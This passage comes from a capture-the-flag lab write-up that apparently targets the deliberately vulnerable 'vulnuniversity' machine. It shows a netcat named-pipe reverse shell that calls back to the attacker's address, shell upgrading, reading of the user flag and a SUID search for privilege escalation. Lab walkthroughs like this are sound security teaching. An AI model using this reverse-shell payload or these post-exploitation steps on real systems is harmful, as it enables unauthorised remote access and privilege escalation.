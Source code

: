 ![Bash](https://i.ibb.co/NCtNvHV/Screenshot-2024-01-11-at-19-33-47-Screenshot.png){:class="img-responsive"}

Reverse shell on my Local machine.
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.32.0 1337 >/tmp/f

└─# sudo rlwrap nc -lnvp 1337 
listening on [any] 1337 ...
connect to [10.6.32.0] from (UNKNOWN) [10.10.139.223] 37420
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/home$ ls
ls
bill
www-data@vulnuniversity:/home$ cd bill
cd bill
www-data@vulnuniversity:/home/bill$ ls -la
ls -la
total 24
drwxr-xr-x 2 bill bill 4096 Jul 31  2019 .
drwxr-xr-x 3 root root 4096 Jul 31  2019 ..
-rw-r--r-- 1 bill bill  220 Jul 31  2019 .bash_logout
-rw-r--r-- 1 bill bill 3771 Jul 31  2019 .bashrc
-rw-r--r-- 1 bill bill  655 Jul 31  2019 .profile
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
www-data@vulnuniversity:/home/bill$ 
www-data@vulnuniversity:/home/bill$ cat user.txt
cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```


## Privilege Escalation
I will search for `SUID`

```shell
www-data@vulnuniversity:/tmp$ find / -type f -perm /4000 -ls 2>/dev/nul
   402892     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newuidmap
   393361     52 -rwsr-xr-x   1 root     root        49584 May 16  2017 /usr/bin/chfn
   402893     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newgidmap
   393585    136 -rwsr-xr-x   1 root     root       136808 Jul  4  2017 /usr/bin/sudo
   393363     40 -rwsr-xr-x   1 root     root        40432 May 16  2017 /usr/bin/chsh
   393501     56 -rwsr-xr-x   1 root     root        54256 May 16  2017 /usr/bin/passwd
   406711     24 -rwsr-xr-x   1 root     root        23376 Jan 15  2019 /usr/bin/pkexec
   393490     40 -rwsr-xr-x   1 root     root        39904 May 16  2017 /usr/bin/newgrp
   393424     76 -rwsr-xr-x   1 root     root        75304 May 16  2017 /usr/bin/gpasswd
   405497     52 -rwsr-sr-x   1 daemon   daemon      51464 Jan 14  2016 /usr/bin/at
   406941    100 -rwsr-sr-x   1 root     root        98440 Jan 29  2019 /usr/lib/snapd/snap-confine
   406710     16 -rwsr-xr-x   1 root     root        14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   405145    420 -rwsr-xr-x   1 root     root       428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
   393687     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   666971     76 -rwsr-xr-x   1 root     root        76408 Jul 17  2019 /usr/lib/squid/pinger
   402037     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   402829     40 -rwsr-xr-x   1 root     root          38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   131164     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
```